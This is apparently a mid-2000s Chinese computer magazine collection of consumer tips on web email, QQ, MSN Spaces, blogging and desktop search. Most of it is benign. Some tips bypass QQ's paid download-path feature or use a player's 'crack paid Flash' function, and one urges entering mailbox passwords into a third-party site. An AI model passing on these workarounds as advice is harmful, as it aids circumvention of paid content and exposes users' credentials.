**Just Do It：** Web 邮箱一般都提供有自动回复功能，但如果你还订阅了邮件列表，或者朋友的信箱也设置了自动回复，请不要打开它，因为很容易造成循环自动回复，从而撑爆邮箱。但如果你出差在外，如何让朋友及时知道呢？这时可以到前面提到的过滤器中设置收到某位朋友的来信，即自动回复一封邮件。不过此功能仅网易等少数邮箱提供。

### 第三招：充分利用大邮箱，多个邮箱合为一

目前新浪、网易等免费邮箱都有 1～2GB 之大，而你公司的邮箱很可能只有几 MB，为避免公司邮箱被大批邮件撑爆，同时也为了接收邮件更方便，推荐将其他小邮箱的邮件直接转移到大邮箱中。同样以 163.com 的免费邮箱为例说明。

第一步：首先在页面上方选择“POP3 收信→POP3 设置”，在打开的页面中输入邮箱地址及密码，并且为了便于区别不同邮箱的信件，选择一个区分颜色（见图3），接着按下“添加”按钮完成添加。



第二步：在下面列出的 POP3 账号项后单击“修改”按钮，在展开的设置项中根据实际情况修改 POP3 邮件服务器地址、用户名和密码，最后单击“更改”按钮完成设置。
第三步：以后只要选择页面上方的“POP3 收信→POP3 收信”，邮箱便会自动从你设置的其他邮箱中收取信件并显示在收件箱中。同时还会自动生成一个收信报告，告诉你接收了多少封信。

### **小提示**

**万能邮件钥匙 mail2web**
进入 http://www.mail2web.com/，接着输入你任意邮箱的地址及其登录密码，然后按下 Check Mail 按钮，很快你会发现它已经打开了你的那个邮箱，是不是很神奇？！

### 第四招：把联系人导入 Web 邮箱打造在线地址簿

邮件客户端提供有完善的地址簿，但如果你出差在外，想给某个朋友发邮件，但又想不起他的邮件地址怎么办呢？因此最好将本地地址簿导入一份到 Web 邮箱，这样无论你在哪，只要打开浏览器就能使用到它。

首先从自己的邮件客户端中导出地址簿为 CSV 文件。以 Foxmail 为例，选择“工具→地址簿”菜单打开地址簿，再选择“工具→导出→CSV 文件(*.csv)...”菜单即可。

以 163.com 免费邮箱为例，登录后在页面上方点击“地址本→导入/导出”，然后根据提示导入即可。

另外，在 Web 邮箱中打开邮件阅读时，可直接按下“添加到地址本”将邮件发件人收录进地址本。

### 第五招：让 E-mail 地址生出“无穷蛋”

什么？E-mail 还可以“下蛋”？是的！Gmail 和雅虎电邮都具有这个功能，它能让你的邮件地址变换成无穷多个新地址，而且还可以为不同的地址分配一个文件夹，让你用来做不同用途。下面以雅虎电邮为例来介绍一下设置方法。

- **第一步：** 登录雅虎邮箱后，点击页面右边的“选项”链接，在打开的页面中点击进入“替身邮”链接，点击“现在开始”按钮。接下来需要我们设置一个替身邮的种子，在“在下面输入替身邮种子”栏中设置一个种子名，该名字必须由一个字母开头，不包含空格或者符号，不能和你的雅虎邮箱 ID 相同，这里以 cfannetwork 为例。
- **第二步：** 种子设置成功后，在打开页面的“在下面框中输入关键词”一栏中输入一个关键字，填写完后点击“继续”按钮。关键字最好按照其用途来设置，比如你想用该地址来接收电子杂志，可以将其设置为“zazhi”（见图4）。
- **第三步：** 接下来是替身邮地址的属性设置。在“发送到”里面选择发往该地址的邮件被存放在哪个文件夹中，在“指示符”一项中选择一个颜色来标记该邮箱地址，在“说明”栏中填写对该邮箱地址的说明，最后勾选“允许通过本地地址发送邮件”一项。

如此一来我们就实现了如下效果：

- 新生成了一个 cfannetwork - zazhi@yahoo.com.cn 邮箱地址。
- 所有发往该地址的邮件都将被分配到我们设置的文件夹中。
- 可以用该地址给任何人发送邮件，方法跟发送一般邮件一样，不过可以在“发件人”一栏选择替身邮地址。

按照上面介绍的方法，可以添加多个形如 cfannetwork-**@yahoo.com.cn 的邮箱地址（“**”的内容自行决定），生成如此多的新邮箱地址，除了可以用不同的地址来做不同的用途外，还有个好处就是防止垃圾邮件。你可以将这些新生成的地址公开出去，一旦发往该地址的垃圾邮件太多，可以在雅虎电邮中将该地址删除，再新建一个地址即可。

### **小提示**

Gmail 也具有类似的功能，不过实现方法是通过其提供的“Labels”和“Filter”功能，生成的新电子邮件地址形式为 GmailID+***@gmail.com。需要注意的是，某些邮件服务商并不提供对这个“+”字符的支持，这样可能会出现丢失信件的问题，请谨慎使用。

### 第六招：突破邮箱附件容量限制

现在的邮箱动辄都是 GB 级别的容量，但发送邮件的瓶颈其实并非邮箱容量的问题，而在于最大附件容量。如何能突破邮箱服务器对最大附件容量的限制呢？我们可以用 OE 中提供的邮件拆分功能，不过如果直接在线发送邮件呢？其实很多邮件服务商对附件大小做了限制，但却没有对邮件正文容量做限制。你可以巧妙利用这一点，并借助一款名为万能文本的软件来达到发送大容量邮件的目的。

首先运行万能文本，单击“将原文件转换为文本并拷贝到剪贴板”按钮，选择要发送的附件，这时再到邮件撰写页面粘贴到邮件正文中。当收件人收到这封邮件后，将这段正文复制到粘贴板后，运行万能文本，单击“将剪贴板中的文本转换为原文件”，再将其还原为原来的文件即可（见图5）。



**万能文本小档案**

| 项目 | 内容 |
| :--- | :--- |
| 软件版本 | 1.01 |
| 软件大小 | 2670KB |
| 软件性质 | 免费软件 |
| 运行平台 | Windows 9X/ME/NT/2000/XP |
| 下载地址 | http://www.onlinedown.net/soft/30056.htm |

### **小提示**

用记事本打开该文件一般都显示为乱码，在把这段乱码转换复制到邮件正文时，前后最好用一个符号来做标记，以方便查看。

## QQ 超实用秘技大曝光

### 秘技一：让 QQ 免费网络硬盘大三倍

笔者一直使用 QQ 网络硬盘，由于和 QQ 集成，用起来很方便。免费网络硬盘的容量才 16MB，时间长了，空间明显不够用，难道非得交费？真是伤脑筋！不过使用下面的技巧，马上能让你的 QQ 免费网络硬盘大三倍！

- **第一步：** 申请一个 QQ 群（16 级以上用户可以创建、或用建立校友录群的方式创建），登录 QQ，打开你的群分类，右击群名称，选择“修改群组资料”，在身份验证中选择“不允许任何人加入该群”，确定后双击群名称打开群聊窗口，点击“共享”按钮，这样就白得 16MB 的群空间，可以向里面上传自己的文件了。
- **第二步：** 现在再执行“QQ 菜单→一键切换到 TM”，或直接登录腾讯 TM，在 TM 中选择“网络硬盘”标签，看到什么了？你的网络硬盘是 32MB 而不是 16MB！现在我们总共就拥有 48MB 网络硬盘空间了。

### 秘技二：主页搜索 三步就成

在本刊前几期中曾介绍过如何通过 Google 搭建自己站内搜索的文章，在输入代码方面比较麻烦，对新手来说不是很简单。于是，笔者在网上找到了一个好地方，它可以自动生成网页代码，提供互联网搜索和站内搜索，它最大的优点是简单，但你必须拥有一个 QQ 号码。只要三个简单步骤，就能打造出我们的个人主页超级强力搜索！

- **第一步：** 登录 http://search.qq.com，点击屏幕右上方“代码搜索”超级链接，跳入新页面（见图1）。
- **第二步：** 在“QQ 号码”后输入你的 QQ 号码，再在“您网站的域名”后面输入个人网页的地址（见图2）。点击“生成网页代码”按钮，再点击“复制代码”按钮。
- **第三步：** 在编辑网页时，把代码粘贴进主页的代码之中。

### 秘技三：制作属于你自己的 TM 名片

使用 TM 的用户，可能经常需要和其他合作伙伴交流联系信息。但如果把地址、电话等详细联系信息放在“个人资料”里面，就会让所有好友看到，这可能是你不希望的，怎么办？很简单，只要利用 QQ 提供的个人名片就可以了。

- **第一步：** 进入 TM，选择“文件→个人资料设定→个人名片”，然后点击右侧窗口中的“点击这里进行修改”。
- **第二步：** 分别在“黄页资料”和“个人资料”中输入信息。注意：“黄页资料”中的内容会公布在行业黄页上；“个人资料”默认不会公开，除非选中了其中的“在行业黄页中公开”。输入完毕后按下“保存”，再按“确定”，信息就会保存在服务器上了（见图4）。


小提示
图片要在公司“公司 Logo”一项中设置，注意图片尺寸不能太大，否则无法上传成功(见图 5)。

图 5

第三步: 今后当你将名片发给某位好友时，只要在 QQ 好友列表中右击他，然后选择“发送名片”即可。

小提示
如何索取好友名片
右击好友昵称，选择“查看联系人资料→个人名片”。但通常情况下用户不是对所有人公开名片的，你还需要点击右下方的“索取名片”，经过对方允许后就能查看名片了。

### 用 QQ 订阅新闻
别以为 QQ 只能用来聊天，它也可以用来订阅新闻。订阅新闻后，当你的 QQ 在线时，便能收到你所关心的消息，你不关心的内容也不会来骚扰你。心动了吧，跟我来！

第一步: 单击 QQ 面板上的“菜单”按钮，选择“订阅新闻”，这时会打开浏览器进入新闻订阅系统。

第二步: 在“设置我的订阅”中你可以订阅四种主题的内容: 校园男生主题资讯、校园女生主题资讯、职业男生主题资讯和职业女生主题资讯。当然，你也可以选择“自定义主题资讯”。根据需要选择其中一种，勾选前面的小圆点。

小提示
若要订阅更多内容，可以点击主题后的“详细内容”链接，在你需要订阅的主题前面方框内打上勾，然后再选择接收的时间，单击“下一步”，片刻，系统便会提示订阅成功。

第三步: 当你的 QQ 上线后，到了设定的时间，QQ 的小喇叭便会一闪一闪地，双击它，便可以打开一个来阅读新闻了。

(木头人 姜琪 LX 福建 流浪人)

## IE 窗口的小图标你会用吗
你有没有注意到 IE 窗口的标题栏左侧的那个小图标呢？对于这个小图标，只要轻轻一拖就能实现很多设置！

用法 1: 拖动它到工具栏上的主页设置按钮可以将当前浏览的网页设置成主页。

用法 2: 拖动它到工具栏上的收藏夹按钮，就可以将该网页添加到收藏夹中。如果在 IE 窗口的左侧展开了收藏夹，还可以拖动它到收藏夹中指定的文件夹。

用法 3: 拖动它到链接工具栏，可以将当前网页添加到 IE 的链接栏中。

用法 4: 拖动它到快速启动区，可以将当前网页添加到任务栏的快速启动区中。

用法 5: 拖动它到桌面，可以在桌面创建当前网页的快捷方式。

用法 6: 拖动它到 Word 中，可以直接得到当前网页的网址。以上操作，对网页中的链接也适用。

(张进东)

## QQ 网络硬盘可以多点下载了
很多人都在使用 QQ 网络硬盘，不过下载这里的文件却不能享受 FlashGet 的多线程下载方式，而且不支持断点续传，有解决办法么？当然有！

要用其他工具下载网络硬盘中的文件，首先需要知道它的下载地址。在网络硬盘中右击要下载的文件，选择“下载路径”，会被提醒只有高级用户才能获得路径(见图 1)，而成为高级用户肯定要付出额外的金钱，就连 QQ 会员也不例外！这显然是我们不希望的，所以只好另辟蹊径。

图 1

图 2

第一步: 按下 QQ 网络硬盘标签，进入“我的网络硬盘”，找到要下载的文件，右击选择“重命名”，将文件后缀名改为“MP3”，接下来双击它，Windows Media Player 会自动调用进行在线播放。

第二步: 在 Windows Media Player 中选择“文件→属性”菜单，在“位置”栏可以看到一个形如: http://219.133.38.148/qd_data/xxx.asx 的地址(见图 2)。

第三步: 用 FlashGet 打开上面的地址，将该文件(只有几十个字节)下载回来，再用记事本打开它，可以看到我们存储文件的真实地址(要把后缀名由 MP3 修改为原来的后缀名)，形如: http://219.133.38.148/cgi-bin/dl/XXX/XXX.rar。

第四步: 最后用 FlashGet 或其他工具下载该地址文件即可，断点续传、多线程功能都可以使用了！

小提示
本文中介绍的方法只适合用于“我的网络硬盘”，对于其他用户提供给自己的“共享网络硬盘”无效，因为无法修改共享网络硬盘中的文件名。

## 微软 Spaces: 分享空间 分享生活

## 想给 MSN 名字前加一颗小星星吗？
看到这两个好友名字有什么不同的地方了吗(见图 1)？如果你使用 MSN Messenger 和朋友聊天，那么，你可能会发现有的好友名字前会有一个小星星，而且，这个小星星还时隐时现，这到底是什么呢？

图 1

这是因为你的好友申请了微软推出的 Spaces，我们可以把它称为“共享空间”，只要你的好友更新了他的“共享空间”，他的名字前就会出现一个小星星。一般来说，如果你查看过他的“共享空间”的东西，这个小星星就会消失掉。那么，这个“共享空间”到底是什么呢？其实答案很简单——自己试着申请一个就知道了，不需要花钱，需要花的是时间，可能得到的是快乐。

请访问: http://spaces.msn.com/，然后点击注册按钮，根据提示一步步地注册(如果你上网方便，可以访问 http://www.pconline.com.cn/pcedu/pingce/0412/505939.html 了解如何注册)。注册完毕后，你就拥有了自己的一个“共享空间”了。

下面你会看到:
★在“共享空间”里了解如何美化自己的“共享空间”
“共享空间”
★如何让别人第一时间知道你更新了什么东西
★把“共享空间”里的东西自动转到“我老婆”(Wallop)那里
在“共享空间”里了解如何美化自己的“共享空间”
http://spaces.msn.com/members/sunniness2/

MSN SPACE 傻瓜教程 (入门必看, CFan 推荐！)
http://spaces.msn.com/members/loadmemory/

这是一个很喜欢琢磨着为 MSN Space 拓展功能的朋友，在他的“共享空间”里提供了一些关于 MSN “共享空间”的进阶技巧教程，包括: 添加背景、立体彩色边框、音乐、视频等内容。
http://spaces.msn.com/members/klcintw/(资源最全, CFan 推荐！)

是不是很丰富？相信你看了之后，一定会爱上这个“共享空间”的。

## 我更新了啥？你立刻就知道！
看到 MSN Messenger 侧边栏的这个小铃铛了吗(见图 2)？如果你订阅了一个网站的更新，以后一旦这个网站有新的内容，MSN Messenger 就会告诉你: 网站更新了东西了，快去看吧。如果你自己建立了一个“共享空间”，如果自己增加了好玩的图片或者写了有意思的文章，肯定希望朋友第一时间知道。那么，如何在自己的“共享空间”里增加这个功能呢？

图 2

第一步: 访问网站: http://www.messagecast.net/。

第二步: 点击图标(见图 3)。

第三步: 点击链接(见图 4)。

第四步: 填表。
依次填入姓名、电话、电子邮件地址、你的“共享空间”的名字、住址等内容。填到下面这个地方要注意(图 5)。

图 3

图 4

图 5

“Name you'd like to call this feed”是你给自己的“共享空间”起的名字。关键是如“Address URL from desired feed”。首先，要到自己的“共享空间”上可以找到。打开自己的“共享空间”，然后用鼠标右键点击“与此网站联合”的图标。在右键菜单中，选择“复制快捷方式”。回到刚才的注册页面，将这个地址粘贴到“Address URL from desired feed”后面的文本框里即可。

第五步: 下面要选择你的提醒数目(5，5 – 1 0……如果你每天更新得多，就多选一些呗)，然后填入你的“共享空间”的地址，邮件地址，并且选择发送什么样的提醒，标题(Send individual headline updates)或者摘要(Send summary of headline updates)，在后面的文本框里，可以写一个格式，例如“快来看啊:”(注意，中括号“[”和后面的文字不需要写)，然后选中“I attest that all supplied information is accurate.”，并且点击“Submit”按钮提交，如果一切正确，就会看到系统提示一封用于激活的邮件已经发送给你。

第六步: 稍等一会儿，你会在刚才填的邮箱里收到一封邮件，点击其中链接，应该是这样一行“Click this link to finalize the activation process.”。点击后出现的页面会出现一个协议，让你同意。选中” I have read……“，然后点击” Accept Terms “表示接受，等待，等待……然后出来一个页面，告诉你又有一封包括用户名、密码以及操作指南的邮件发给你了！感觉有点麻烦，不过为了以后访问你的“共享空间”的朋友不麻烦，你就认了吧。

第七步: 在等待的时候，你可以去自己的Spaces里，新建一个列表，例如叫“最新提醒”之类的。那么URL里要写什么呢？这时候你可以去看看自己的邮件到了没有，如果到了，你可以发现其中的一个HTML代码段落。将“<a href=”后面的部分一直到这个尖括号结束的地方拷贝下来，粘贴到刚才你新建的Spaces里的列表URL里面就可以了。

### 小提示
以“”开头的段落可以不拷贝。你收到的邮件看起来应该是这个样子的:
YOU MUST PUT THIS SIGN-UP LINK ON YOUR BLOG HOMEPAGE:
<a href=http://www.messagecast.net/alerts/login.do?PINID=2575&returnURL=http://spaces.msn.com/members/tall></a>
(NOTE: In your publishing software, paste this link into your blog template.)

然后，把其中的链接部分拷贝过来(就是在上面红色的那部分，当然，每个人的具体内容都是不一样的)，填入作为Spaces中新建项目的URL中，这样就可以了(见图6)。

图6

## 把好东西自动转到“我老婆”(Wallop)
这是一个简单的小技巧。如果你有Wallop，可以让自己的Spaces的帖子也自动出现在自己的Wallop里(如果你想尝试Wallop，可以到一些论坛去碰碰运气，那里经常会有一些Wallop的邀请给朋友)。

### 你知道吗？
### 什么是“我老婆”(Wallop)
Wallop是微软推出的社会性网络(SNS)服务，能够让朋友间分享照片、音乐及Blog等。Wallop界面全部由Flash做成，界面相当漂亮。与众不同的是，这里的好友之间不是依靠什么号码或是邮件地址来查找的，而是通过认识一个人，从而认识他的好友，接着认识“好友的好友”，以此类推，从而在这个虚拟的社会中认识很多人。要申请Wallop，需要已经在其中的人进行邀请才可以。

第一步: 在自己的Spaces里，右击“与此网站联合”，在弹出菜单中选择“复制快捷方式”。

第二步: 在Wallop里点击左侧的My Preferences，然后选中“I have a Blog with RSS, so import it to Wallop”，这时会弹出一个对话框让你输入RSS Feed的地址，把第一步中复制的快捷方式粘贴过来，然后点击“Save”就可以了。

第三步: 重新登录一次Wallop，就可以发现你在Spaces里面的东东已经都同步到Wallop里了！以后只要你在Spaces里更新的东西，也会自动转到Wallop里面去。

微软在努力让自己的产品相互融合，上面是其中一例。在MSN Messenger中，点击窗口顶端的状态栏，你会发现在右键菜单选项中多了“查看我的联系人卡片”和“添加到我的个人空间”(见图7)。如果你的好朋友申请了“共享空间”，你可以直接在其名字上点右键选择“查看此人的联系人卡片”，查看他在“共享空间”上的一些文章标题和照片。

图7

当我们试用完这些后，就会感叹为什么这些想法不是出自QQ，不是出自我们的门户网站……我们本应努力创新，但却亦步亦趋，这样将永远无法引领前进的步伐。希望我们的读者迅速成长，争取成为中国的比尔·盖茨。到了那个时候，别忘了我们一起分享空间，分享生活。

(老木头)

## 我是一只猎杀Flash的狐狸

### 火狐Flashplayer小档案
- 软件版本:3.05
- 软件大小:7304KB
- 软件性质:共享软件
- 适用平台:Windows 9x/NT/2000/XP
- 下载地址: http://www.onlinedown.net/soft/28264.htm

### 软件特色功能及简介
下载并安装，运行后界面如图1，非常简洁，只有“文件”、“列表”、“查看”、“控制”、“面板”、“工具”、“网络”、“帮助”等八个菜单选项，但其所涵盖的功能却非常强大，其中比较有特色的是Flash解除保护、声音图像的提取、智能搜索网上的Flash、Flash截图和整合IE等功能。

图1

### 实例应用
#### 实例1: 收费Flash随意看
如果你下载了一些Flash，发现没法播放，或用本播放器播放时断断续续，可能因为它们是收费才可以看的Flash，是加了保护的，你可以使用本播放器的破解功能对它进行破解再观看。在播放列表中选择一个或多个Flash，单击菜单“文件→破解收费Flash”选择一个要保存的文件名或目录名即可。注意: 最好开始不要覆盖原文件，确认生成后的Flash能正常播放后再删除原文件。有的Flash破解后要开“自动播放”才正常播放，而有的则要关掉“自动播放”才能正常播放，都试试哦。

#### 实例2: 整合IE
不知道大家有没有这种经历，在网上看到一个很精美的Flash文件，却无法保存，现在可以通过Flashplayer进行保存了。具体方法: 按下主菜单的“工具→在IE中添加右键菜单”，这样在浏览网页时看到想要保存的Flash时，只要在旁边按下右键，在右键菜单中找到“火狐Flash保存”(见图2)，就可进行保存了。

图2

小提示
如果不想要这个功能，可以在“工具→剔除在IE中添加的右键菜单”剔除此功能。如果你的系统中装有FlashGet，还可用它进行多线程下载Flash。

#### 实例3: 精彩Flash尽情搜
进入要搜索的网站主页，按下主菜单的“工具→智能搜索网络上的Flash”，打开搜索窗口(见图3)，然后选择一个网址和搜索层数，最后单击“搜索”，就可以搜出这个网站上的所有Flash，并添加到播放器的列表中去。

图3

#### 实例4: 提取声音和图像
在播放列表中选择要提取或转换的Flash，然后再按下主菜单下的“文件”菜单下的相应的提取或转换菜单即可(见图4)。

图4

特色功能不胜枚举，读者朋友自己慢慢体会吧！

(张树忠 张薇)

## 让浏览器暂时停用广告屏蔽
现在，大家都比较喜欢用Maxthon、GreenBrowser等一类具有广告拦截功能的浏览器，很多弹出窗口和广告内容都能自动取消。但是，有时你可能会需要看到某些广告，或是遇上一些论坛注册页面需要关闭广告拦截功能，否则将不能完全显示。遇到这种情况，我们总是要为了一个注册页面要到“选项”中将广告拦截功能取消，注册完闭后又要重新到“选项”中将广告拦截功能打开，非常麻烦。其实在遇到这类页面时，只要在打开时按住Ctrl键不放就可以临时关闭广告拦截功能了。如果页面已经打开，按住Ctrl键，然后再点击“工具栏”的“刷新”按钮刷新一次即可。此方法对于网页上的一些脚本链接同样有效。

小提示
按住Ctrl键时，广告屏蔽功能是取消的，但只要一松开Ctrl键，广告功能就会立刻启用，广告内容就会消失。所以，本方法只适合于临时查看网页的情况。

(安徽 李云峰)

## 今天我要在家做主编
WeBlog 是 Web Log 的缩写，中文意思是“网络日志”，后来缩写为 Blog，而 Blogger 则是写 Blog 的人。简单地讲，所谓“Blogger”，就是使用特定软件，在网络上出版、发表和张贴个人文章的人，而这些个人文章一般都有一定主题。在 2004 年，我们介绍了博客的一些基本知识，让你对它有了初步了解，而今天，你将成为 Blogger，可以用 Blog 来写日记，也可以写下你对某个领域知识的感悟，或者你的读书笔记……下面我们就从零开始，做一个优秀的 Blogger。

### 你知道吗？
### Blog 的由来
尽管我们常常提到 Blog 这个词，但究竟什么是 Blog，要定义起来还真有些难。直到今天，它的中文名称尚未有一个统一的认定，围绕它的争论也持续不断，我们一般叫 Blogger 这个群体为“博客”、“部落客”或“报客”。

其实，早在 1998 年，人们就有了在网络上发表 Blog 的构想，但到了 2000 年这种写作形式才在国外流行。2003 年发生的“木子美风波”让 Blog 在中国迅速流行起来，从此国人纷纷开设自己的 Blog 站点，很多人就是从那时候起逐渐成为坚定的 Blogger 的。

### 师傅领进门——就地取材
说起 Blogger 这个词很玄乎，其实成为一个 Blogger，跟你去路边买根油条一样简单。一般来说有两种方法：使用免费的 Blog 服务或自己架设 Blog 站。对于多数网民来说，使用免费的 Blog 服务是最理想的选择。下面分别对这两种方法进行简单介绍。

#### 1. 使用免费的 Blog 服务
以国内免费 Blog 服务站点 donews(http://www.donews.net)为例，首先需要到 http://www.donews.net/Register.aspx 注册一个账号，注册成功后你的 Blog 地址即为 http://www.donews.net/username(username 就是你注册的名字)，而你马上就能发表文章了。不过在发表文章前，我们先来将自己的 Blog “武装”一下，让它更实用、更个性。首先打开你的 Blog 页面，点击“登录”链接进入后台管理页面。

第一步：配置页面风格。进入“选项→配置”链接，这里可以设置 Blog 的标题、子标题、用户显示的名字、首页默认显示的文章数量等。比较关键的是“皮肤”的设置，这里提供了多达 29 种不同的 Blog 外观，你可以随意选择。如果你对制作网页有一定了解，还可以在“定制 CSS 选择器”一栏自己定制页面的风格代码(CSS)(见图 1)。

图 1

第二步：配置 Blog 链接。配置页面风格后，你再访问自己的 Blog，发现尽管页面样式已经让你满意，但内容上还是空空如也。所谓“链接”，就是你的 Blog 页面的侧边栏中显示的内容(见图 2)，你可以在“链接”页面中添加。按照笔者的经验，这里一般可以添加“关于作者”、“友情链接”、“推荐站点”等三个分类，而每个分类下面则设置数量不等的各种链接。

小提示
链接的配置都支持 HTML 代码，比如我们要在“关于作者”分类中添加一个 QQ 临时会话的链接，让访问者通过点击该图标就能直接与我们通过 QQ 进行交流。我们只需要添加一个新的链接，并将“链接标题”设置为类似“”，而“Web 地址”栏则设置为“http://wpa.qq.com/msgrd?V=1&Uin=你的 QQ 号码&Site=IT Watch&Menu=yes”即可(见图 3)。

图 2

图 3

第三步：添加文章分类。对于一个 Blog 来说，为了让访问者更容易找到自己感兴趣的文章，我们最好将自己写的文章分为几个种类。比如笔者的某个 Blog 就按照文章的长短设置了“三言两语”和“喋喋不休”两个分类。

第四步：撰写文章。一般 Blog 服务站点对文章的撰写都支持可视化编辑方式，你可以像使用 Word 一样编辑你的文章。

需要特别注意的是：发表文章页的“高级选项”设置，初次使用 Blog 的朋友可能不了解，这里为大家解释一下(见图 4)。

图 4

“发布到网页”：有时你写的文章只想自己保存，不想让访问者看到，那就不勾选该项。

“在首页显示”：如果取消勾选该项，访问者不能在你的 Blog 的首页看到该文章，但在分类文章中可以找到它。

“允许客户端订阅”：勾选它可以让通过 RSS 来访问的用户浏览到该文章。

“仅聚合文章描述”：如果取消勾选它，文章的全部内容都将直接显示到 Blog 的首页，反之，则只显示文章摘要。

#### 2. 自己架设 Blog 站
尽管使用免费的 Blog 服务比较简单，但它毕竟可能不符合你的要求。如果不想“寄人篱下”，要自己架设一个 Blog 站点也并非什么难事。L-Blog 是目前国内最流行的单用户 Blog 系统，要使用它，你的空间必须支持 ASP+Access，而且 FSO 组件需支持文件上传。我们以它为例，简单介绍一下安装方法：

第一步：首先到 L-Blog 的官方站点 http://www.loveyuki.com 下载最新版本的 L-Blog V1.08 (SE) Final，将安装压缩包解压后上传到你服务器空间的 www 目录。

第二步：访问 http://www.yoursite.com/xxx/default.asp，这里的“xxx”取决于存放 L-Blog 的文件夹名，如果你支持上传到 www 目录，则你可以直接通过 http://www.yoursite.com/default.asp 来访问。接下来在网站左侧的登录框中用用户名 admin、密码 admin888 登录，这是默认的管理员账户，登录后别忘记修改密码。

第三步：配置你的 Blog，配置的方法与上面介绍的免费 Blog 服务设置方法雷同。

小提示
### 用 Gmail 写 Blog
国外的高手写了一套名为 Gallina 的 PHP 程序，它可以让你通过在自己的 Gmail 中给自己发送邮件并将邮件移动到“Starred”文件夹(加星文件夹)中的方法来发表 Blog。其官方站点为：http://ion.gluch.org.mx/files/Hacks/gallina/。

### 修行在个人——优秀 Blogger 应该记住的四句话
#### 1. 引用、转摘别人的文章请注明出处
对版权的尊重不仅是良好习惯，也是一种起码的礼节。目前多数 Blogger 对自己写作内容的版权都采用“创作共用”(Creative Commons License)方式，这是一种保留部分版权(Some Rights Reserved)的新协议，而非我们经常看到的“保留所有版权”(All Rights Reserved)。这个协议赋予了我们更多引用别人、改写文章的权力。你也可以考虑让自己的文章遵守该协议，方法是在 Blog 的链接栏中添加一个链接，并将“标题”项设置为“本站作品遵从 Creative Commons License”，链接的“地址”项设置为：http://creativecommons.org/licenses/by-nc/2.0/(见图 5)。

图 5

#### 2. 选定一个方向持续深入下去
很多初级 Blogger，在自己的 Blog 上发表各种各样杂乱无章的文章，几乎是“眉毛胡子一把抓”，这很难让别人对你的 Blog 感兴趣。你可以选择一个你最擅长或者最了解的领域，或许你对做菜很有研究、或许你有自己的减肥日志等等。这样可以让你找到更多的志同道合者，也让访问者对你的 Blog 有个深刻的印象。

#### 3. 告诉访问者如何联系你
前面向大家介绍了如何在 Blog 中添加 QQ 临时会话功能，这其实就是加强你与访问者沟通的方法之一。大家可以在“关于作者”这个链接分类中再增加自己的 MSN Messenger、E-mail、Skype 等联系方式。在国外，甚至有很多 Blogger 都将自己的手机号码直接填写在 Blog 上，可以看出作者对自己 Blog 读者的重视和信赖。

#### 4. 链接是 Blog 的生存之本
对于我们撰写文章中的关键字，最好将其链接到对访问者有用的链接中去。比如下面这句话：“刚为海啸遇难者捐款 500 大元，心中略感一丝欣慰。”其中的“海啸”和“捐款”两个词，我们都可以加一个超链接，“海啸”可以链接到新浪新闻站的海啸专题页面，“捐款”则可以链接到国人网上捐款方式总结页面。如果对于一些你觉得访问者可能会感到生疏的词，而你又找不到合适的页面来链接的话，那么可以自己写一篇关于该词的详细介绍，然后将关键字链接到这篇你自己写的文章上去。

解释它，你可以将其链接到Google或百度的搜索结果页。

### 小提示：让Blog自动记住你的关键字
很多Blog都提供了关键字自动链接服务，以基于“文本”的Donews Blog为例，登录管理页后进入“选项→关键字”页面，你就可以配置关键字了。不过需要注意的是，该Blog系统对中文不支持分词，比如你要让它自动链接“微软”这个关键字到 http://www.microsoft.com，那么添加它的时候，“微软”这个词的前后要加上空格(见图6)。



## 他山之石 可以攻玉——优秀Blog站点推荐
在撰写自己的Blog的同时，从别的Blog中汲取优秀的东西是必不可少的学习过程。一方面你可以学到一些Blog技巧，另一方面你也可以获得传统网站无法获得的信息。下面是笔者收集的一些非常出色的Blog站点。

对牛乱弹琴：http://www.donews.net/keso。该Blog的作者keso笔者是敬佩的Blogger之一。它保持每天都更新，内容主要集中于对IT的评论、感悟，而且你可以通过它的“昨日新闻”栏目了解到刚刚发生的新闻，这种经过人为“过滤”的文章更值得你阅读。

任人笑骂评说：http://www.20six.co.uk/wtc3353。Blog的作者身居国外，该Blog每天更新数次，而且每篇文章都言简意赅，提供大量英文链接，适合有一定英文基础的人访问。其文章内容主要涉及音乐影视、奇闻、美食等。

出语不俗：http://chinese.dreamsofwhitetiles.com/。这个Blog非常有趣，因为这是一群老外用中文撰写的Blog！笔者随意摘抄一段：“现在爷爷不在了；他生前未讲出来的故事也就不在了；他一生所见过的事情，所熟悉的人，所有过的知识，就更不在了。我爷爷是他那一代最后的人之一，而他的死亡就像一所图书馆被烧掉了一样。”怎么样？绝对值得一看！

Microsoft Watch：http://www.donews.net/joychan。如果你对微软公司产品很感兴趣，那来这里就对了。该Blog只关注微软的最新动向、产品、传闻等。推荐它的另外一个理由是：笔者就是该Blog的作者。^_^

Google Blogscoped：http://Blog.outer-court.com/。你想知道Google除了搜索外还有些什么妙用吗？想知道有关Google的奇闻轶事么？来这里就对了！每日更新数次。不过该站点是英文站点。

### 你知道吗？世界上最受欢迎的Blog在哪里？
其实浩瀚的Internet中还有数不清的Blog站点等待你去发掘，上面列举的几个只是沧海一粟。不过，通过著名的Bloglines站点的统计，你可以在这里看看目前最受欢迎的Blog都有哪些(多数是英文站点)：http://www.Bloglines.com/topBlogs。

（四川 飞翔鸟）

## 本土化的百度桌面搜索来了
前几期我们一直在讨论桌面搜索战场的风起云涌，各大厂商都推出了自己的桌面搜索工具，方便用户搜索本地电脑中的文件资源，最近百度公司也推出了桌面搜索工具——百度硬盘搜索。

### 百度硬盘搜索(BaiduDiskSearch)小档案
| 项目 | 内容 |
| --- | --- |
| 软件版本 | V1.0 |
| 软件大小 | 3.22MB |
| 软件性质 | 免费软件 |
| 运行平台 | Windows 2000/XP/2003 |
| 下载地址 | http://disk.baidu.com/BaiduDS_setup.exe |

## 新意篇——我来自中国！
百度硬盘搜索和以往桌面搜索工具相比有哪些改进呢？首先，其他搜索工具拥有的功能它都具备，例如搜索本地文件，对本地文件做索引等。而其最大的优点就是全面支持中文搜索，在支持的文件格式方面也比Google Desktop Search更多，默认情况下可以对近二十种特定文档类型进行搜索。该软件还有其他很多小功能，例如密码保护隐私、图片搜索、自定义搜索文档格式等，并非完全是照搬模仿之作。

### 小提示：Google Desktop Search中文版来了！
以前英文版的Google Desktop Search不能很好地支持中文，但最近Google推出了中文版，搜索结果有乱码的问题得到了完美解决，下载地址为：http://desktop.google.com/。

## 索引！索引！还是索引！
我们已经有经验了：桌面搜索的关键在于索引。只有建立好一个庞大的索引文件，才能高效地搜索到结果。和其他桌面搜索工具类似，百度硬盘搜索的安装很简单，但建立索引会耗费很长时间。

